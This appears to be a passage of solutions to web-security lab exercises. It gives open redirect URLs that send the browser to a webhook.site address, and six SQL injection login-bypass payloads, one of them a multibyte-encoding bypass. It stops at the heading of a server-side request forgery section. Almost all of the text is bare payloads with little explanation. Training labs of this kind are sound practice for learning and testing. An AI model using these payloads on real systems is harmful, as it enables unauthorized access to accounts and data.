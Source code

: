 ```
http://ptl-139644d6-1918f8b2.libcurl.so/redirect.php?uri=https://webhook.site/31653fb5-e7ba-4607-b81b-9fa0165fa021
```

### Open Redirect - 2

```
http://ptl-f72c1dd8-63163a1e.libcurl.so/redirect.php?uri=//webhook.site/31653fb5-e7ba-4607-b81b-9fa0165fa021
```

## SQL Injection

### SQL Injection - 1

```
admin'or'1'='1'-- -
```

### SQL Injection - 2

```
admin" or "1"="1"-- -
```

### SQL Injection - 3

```
admin'or'1'='1' LIMIT 1-- -
```

### SQL Injection - 4

```
admin'or'1'='1'#
```

### SQL Injection - 5

```
admin'or'1'='1'#
```

### SQL Injection - 6

```
username=admin%bf%27+or+1=1+--+&password=admin
```

## Server Side Request Forgery

To do so you will need to change the url parameter to access the local server on port TCP/1234.

### SSRF - 1
